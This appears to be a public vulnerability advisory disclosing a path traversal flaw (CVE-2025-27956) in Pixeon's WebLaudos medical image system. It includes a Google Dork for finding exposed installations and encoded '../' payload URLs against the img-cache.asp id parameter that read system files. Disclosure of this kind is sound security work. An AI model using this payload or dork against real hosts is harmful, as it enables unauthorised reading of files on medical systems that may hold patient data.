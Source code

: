 # Directory Traversal

### Product Description:
The WebLaudos software developed by Pixeon is a system that manage, and share medical images that can be accessed by doctors or patients.
	
### Vulnerability Description:
A path traversal attack (also known as directory traversal) was discovered in the WebLaudos software. This vulnerability allows an attacker to access files and directories stored outside the web root folder. By manipulating the id parameter in the URL using “dot-dot-slash (../)” sequences and their variations or by using absolute file paths, an attacker may be able to access arbitrary files and directories on the file system, including system files. As demonstrated in the proof of concept below, exploiting this flaw allows access to the img-cache.asp file, which returns the contents of any requested file, in this case: /etc/hosts. <br><br>
![Proof of concept](Poc_CVE-2025-27956.jpg)

### Vulnerability Type:
CWE-35: Path Traversal

### Example vulnerable URL 
To find vulnerable hosts, you can use the following Google Dork:<br>
```intitle:"WebLaudos"```
<br><br>
The first directories are customizable, so here are three examples of vulnerable URLs: <br>
https://example.com/laudo/multimagem/img/img-cache.asp?id=..%2f..%2f..%2f..%2fWindows%2fSystem32%2fdrivers%2fetc%2fhosts <br><br>
https://example.com/web_laudos/img/img-cache.asp?id=..%2f..%2f..%2f..%2fWindows%2fSystem32%2fdrivers%2fetc%2fhosts <br><br>
https://example.com/img/img-cache.asp?id=..%2f..%2f..%2f..%2fWindows%2fSystem32%2fdrivers%2fetc%2fhosts <br>
	
### Vendor:
Pixeon
	
### Affected Product:
WebLaudos — 24.2 (04)
	
### Affected Component:
Endpoint: https://example.com/laudo/multimagem/img/img-cache.asp <br>
Parameter (GET): id <br>
Example payload: ..%2f..%2f..%2f..%2fWindows%2fSystem32%2fdrivers%2fetc%2fhosts

### Attack Vector:
Remote
	
### Code Execution:
No
	
### Attack Vector:
Attackers can escape outside of the restricted location to access files or directories that are elsewhere on the system.
	
### Reference:
https://cwe.mitre.org/data/definitions/35.html <br>
https://cwe.mitre.org/data/definitions/22.html <br>
https://owasp.org/www-community/attacks/Path_Traversal <br>
	
### Discoverer:
Kauan Akyra Watanabe Ferreira (Ak7r4) | kakyra@intruderlabs.com.br
